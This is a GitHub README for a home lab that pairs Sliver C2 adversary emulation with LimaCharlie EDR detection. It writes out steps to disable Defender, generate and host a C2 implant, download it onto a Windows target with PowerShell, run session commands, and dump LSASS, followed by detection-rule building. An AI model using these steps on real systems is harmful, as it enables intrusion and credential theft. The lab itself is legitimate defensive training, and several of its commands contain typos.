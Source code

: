 # **LimaCharlie & Sliver C2: Adversary Emulation Lab**

**Objective**

This repository explores adversary tactics using Sliver C2 for command-and-control attack simulation and demonstrates defensive strategies using LimaCharlie EDR. It aims to replicate real-world attack scenarios, refine detection logic, and evaluate telemetry insights."



**Skills Learned**

**🔹 Endpoint Detection & Response (EDR)**
- Deploying LimaCharlie Sensors for real-time telemetry collection.
- Integrating Sysmon with LimaCharlie to capture detailed process activity.
- Analyzing process telemetry to detect command-and-control (C2) activity.
- Building Detection & Response (D&R) rules to mitigate attacks.

**🔹 Adversary Emulation & C2 Frameworks**
- Setting up Sliver C2 to simulate real-world attack scenarios.
- Generating and deploying Sliver payloads for command execution.
- Interacting with active C2 sessions to mimic adversary behavior.
- Understanding detection evasion techniques used by Sliver.

**🔹 Threat Hunting & Malware Analysis**
- Examining process and file hashes to investigate suspicious binaries.
- Using VirusTotal to assess malware reputation and identify unknown threats.
- Dumping LSASS memory to simulate credential theft tactics.
- Filtering LimaCharlie telemetry for sensitive event detection.

**🔹 Security Operations & Defensive Strategies**
- Refining security detection logic for advanced threat detection.
- Investigating system behavior post-compromise for forensic insights.
- Applying MITRE ATT&CK mappings to real-world adversary techniques.




**Tools Used**

🔹 Virtual Machines (VMs)
- Windows 10 (Target Machine) – Acts as the endpoint where Sliver C2 payloads are executed. LimaCharlie sensor is deployed here to capture telemetry.
- Kali Linux (Attacker Machine) – Used for launching Sliver C2, executing commands, and emulating adversary techniques.
- Ubuntu Server (Malware Storage) – Acts as a staging server for adversary-controlled payload distribution. A temporary Python web server hosts the Sliver C2 payload, mimicking real-world malware delivery methods.


🔹 LimaCharlie (EDR Platform)
A cloud-native endpoint detection & response (EDR) tool used to capture and analyze system telemetry. It provides:
- Real-time endpoint monitoring and security event logging.
- Detection & Response (D&R) rules for identifying adversary behaviors.
- Sysmon integration for enhanced process visibility.

🔹 Sliver C2 (Command & Control Framework)
An open-source command-and-control (C2) tool used to simulate real-world adversary techniques. Provides:
- Payload generation for remote access and execution.
- Session management to interact with compromised endpoints.
- Defensive tool awareness by highlighting detected security features.



**Steps :**

First thing we got to do is to remove security defense in Windows VM.
![image](https://github.com/user-attachments/assets/522aa5c2-c2f6-47f6-8298-5446112cf5c8)
![image](https://github.com/user-attachments/assets/dbf3fb49-1cbd-4e0e-986c-a8f1940a01fa)
![image](https://github.com/user-attachments/assets/fdee6963-0944-43e2-9838-a5c1abe6feff)


Some instances, the security settings will automatically turn on again, so we will ‘double disable’ it in gpedit.msc
(Computer configuration > Administrative Template > Windows Components > Microsoft Defender Antivirus)
![image](https://github.com/user-attachments/assets/cdcfb01e-7266-490f-b772-794580d5a60d)



Install Sysmon in Windows VM
-	Launch Administrative Powershell console 
-	`Invoke-WebRequest -Uri https://download.systernals.com/files/Sysmon.zip -Outfile C:\Windows\Temp\Sysmon.zip`
-	Unzip Sysmon
-	Download SwiftonSecurity’s Sysmon config.
-	Invoke-WebRequest `-Uri https://raw.githubuser.com/SwiftonSecurity/sysmon-config/master/sysmonconfig-export.xml -Outfile C:\Windows\Temp\Sysmon\sysmonconfig.xml`
-	install Sysmon with Swift’s config
![image](https://github.com/user-attachments/assets/afe2d98a-898b-435a-baf3-cce9051807be)


Create organization in LimaCharlie (https://limacharlie.io/)
![image](https://github.com/user-attachments/assets/a7823c1b-a5a5-415b-b1f2-61f97550431d)

Add demo configuration : Extended Detection & Response Standard.

Add sensor. Follow the instruction in LimaCharlie Docs in telemetry sensor deployment
(https://docs.limacharlie.io/v1/docs/telemetry-sensor-deployment)
![image](https://github.com/user-attachments/assets/d4686476-6399-40a7-ad26-889a85327682)
![image](https://github.com/user-attachments/assets/2fd688a9-2dcf-49bb-a32a-d7db7f1d5426)
![image](https://github.com/user-attachments/assets/2b939926-b417-4df3-9140-6dccf88e33f7)
![image](https://github.com/user-attachments/assets/575a8aa6-f742-45ae-b3d5-ab28063de086)

Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry;
![image](https://github.com/user-attachments/assets/6e793633-8d4e-4465-894a-fde76fce9571)

![image](https://github.com/user-attachments/assets/faedc2b9-362c-4043-a80a-066ff7ab0b0c)


Setting up the attack: 
In Kali Linux, connect in Ubuntu server using SSH (ssh ‘user’@’ubuntu-server-IP’)

Then download the Sliver : wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -0 /usr/local/bin/sliver-server

Then make it executable : chmod +x /usr/local/bin/sliver-server

Also install mingw-w64 for additional capabilities : `apt install -y mingw-w64`
Launch sliver (sliver-server)
![image](https://github.com/user-attachments/assets/1847ef67-7a85-4b6b-8073-e66ff4839fd7)

Generate C2 payload : generate –http [Ubuntu server IP] –save /opt/sliver
![image](https://github.com/user-attachments/assets/86f3b718-f5e8-4d4d-8ede-64abeac8d593)

Setup a temporary server in Ubuntu server so the payload can be download by or target pc :
python3 -m http.server 80
Then switch to our Windows VM then launch administrative powershell :
IWR -Uri http://10.0.2.13/LOW_BAGGAGE.exe -Outfile C:\Users\vboxuser\Downloads\LOW_BAGGAGE.exe
![image](https://github.com/user-attachments/assets/068375e9-8f3b-48d7-bfcb-0b533b70ed6f)

Back to our (SSH)ubuntu server
Quit the python web server then relaunch the sliver-server, start http listener by typing ‘http’
![image](https://github.com/user-attachments/assets/43587b79-32a0-465f-aefc-99639eb26318)

Return to Windows VM then execute the C2 Payload using administrative powershell.
![image](https://github.com/user-attachments/assets/15d8eced-0fd9-4782-aa2d-8667b593b80a)
Verify by typing ‘sessions’
![image](https://github.com/user-attachments/assets/ccca4c27-7d32-4eb5-9f7d-d5b86cc50b6b)

Interact with C2 session : ‘use [session_id]
![image](https://github.com/user-attachments/assets/de63e25a-2c57-44c9-86e7-2c72ea213dff)

Get basic info: `whoami && info`

![image](https://github.com/user-attachments/assets/f31691f5-992d-4c0d-a32a-4c53e49ca3f5)

`getprivs` :

![image](https://github.com/user-attachments/assets/e56a8eba-3dfb-4096-80b4-ed654cb68ae2)

![image](https://github.com/user-attachments/assets/bacd162e-5a94-4360-a5c2-d9826b16d89a)

`ps -T` (sliver highlight the defensive tool as red and green as its own)
![image](https://github.com/user-attachments/assets/ed37bb45-62b7-48a5-beef-16ee45352e7b)


Go to LimaCharlie’s Process Explorer, select the Windows VM, and analyze running processes. Look for suspicious parent-child process chains (e.g., powershell.exe -> LOW_BAGGAGE.exe) as indicators of malicious execution.


![image](https://github.com/user-attachments/assets/0090cd77-b48a-4be1-8795-141ec01084d6)
![image](https://github.com/user-attachments/assets/94d49b43-c96e-4788-aecb-20b4b918c4a9)
![image](https://github.com/user-attachments/assets/8feefe4d-9451-4cf9-8ac8-b7c3db7c1721)

resources to learn more about windows processes and binaries threat actors use : 

https://www.sans.org/posters/hunt-evil/

https://lolbas-project.github.io/#


Go to file system of our windows machine in LimaCharlie to get the hash of file then inspect it to Virustotal.
![image](https://github.com/user-attachments/assets/31a37a86-5eb3-4c47-b449-81bfec0b325c)

**When you tried to check it to Virustotal. No results will found. 
But it doesn’t mean its innocent.
It’s just VirusTotal is never seen it before. This makes sense because we just generated the payload.
The important lesson for any analyst to learn : Files not flagged by VirusTotal may be custom-built malware designed for targeted attacks. Always corroborate findings with static analysis (strings, entropy checks) and behavioral analysis (sandbox execution)



Next, lets dump the **lsass.exe** process from memory 

![image](https://github.com/user-attachments/assets/fcdb62d6-a7d1-482b-844e-d1300e2dfc19)

![image](https://github.com/user-attachments/assets/a3517011-f22c-4f91-beb3-5775ddfa09ec)


Go back to Timeline then filter for : “SENSITIVE_PROCESS_ACCESS”
![image](https://github.com/user-attachments/assets/07dc4bf9-05f8-413a-a2c2-779cfd03f577)


Then build a D&R rules from it. 
![image](https://github.com/user-attachments/assets/719bdde3-2a97-4374-8fbd-4dc78ef23451)

![image](https://github.com/user-attachments/assets/131deeb7-ca76-41e0-878a-fc769cf561e5)

Scroll to the bottom to test our D&R rule.
Paste the SENSITIVE_PROCESS_ACCESS code then click Test Event.
Save the rule.


![image](https://github.com/user-attachments/assets/d214a89a-277d-48d4-ad37-7179554ed140)

Try to dump the lsass.exe again using the same command to check if our rule is really working.

![image](https://github.com/user-attachments/assets/7e6780ad-4b1b-462a-839b-d36020855ab7)

![image](https://github.com/user-attachments/assets/3322d89e-b917-4468-8b68-33ccc7276477)



Special thanks to Eric Capuano. This is based on his blog “So you want to be a SOC Analyst?”
Also “Simply Cyber – Gerald Auger phD” youtube channel for making an updated walkthrough for this lab










